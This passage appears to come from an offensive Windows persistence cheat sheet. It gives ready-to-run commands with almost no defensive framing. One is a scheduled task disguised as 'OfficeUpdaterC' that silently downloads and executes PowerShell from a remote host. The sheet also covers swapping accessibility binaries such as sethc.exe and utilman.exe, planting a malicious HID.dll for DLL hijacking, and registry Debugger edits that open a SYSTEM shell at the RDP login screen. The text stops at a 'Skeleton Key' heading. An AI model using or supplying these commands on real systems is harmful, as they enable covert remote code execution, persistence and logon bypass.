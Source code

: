 ```powershell
##(X64) - On User Idle (30mins)
schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```

### Binary Replacement

#### Binary Replacement on Windows XP+

| Feature             | Executable                            |
|---------------------|---------------------------------------|
| Sticky Keys         | C:\Windows\System32\sethc.exe         |
| Accessibility Menu  | C:\Windows\System32\utilman.exe       |
| On-Screen Keyboard  | C:\Windows\System32\osk.exe           |
| Magnifier           | C:\Windows\System32\Magnify.exe       |
| Narrator            | C:\Windows\System32\Narrator.exe      |
| Display Switcher    | C:\Windows\System32\DisplaySwitch.exe |
| App Switcher        | C:\Windows\System32\AtBroker.exe      |

In Metasploit : `use post/windows/manage/sticky_keys`

#### Binary Replacement on Windows 10+

Exploit a DLL hijacking vulnerability in the On-Screen Keyboard **osk.exe** executable.

Create a malicious **HID.dll** in  `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.


### RDP Backdoor

#### utilman.exe

At the login screen, press Windows Key+U, and you get a cmd.exe window as SYSTEM.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe
 
Hit F5 a bunch of times when you are at the RDP login screen.

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key
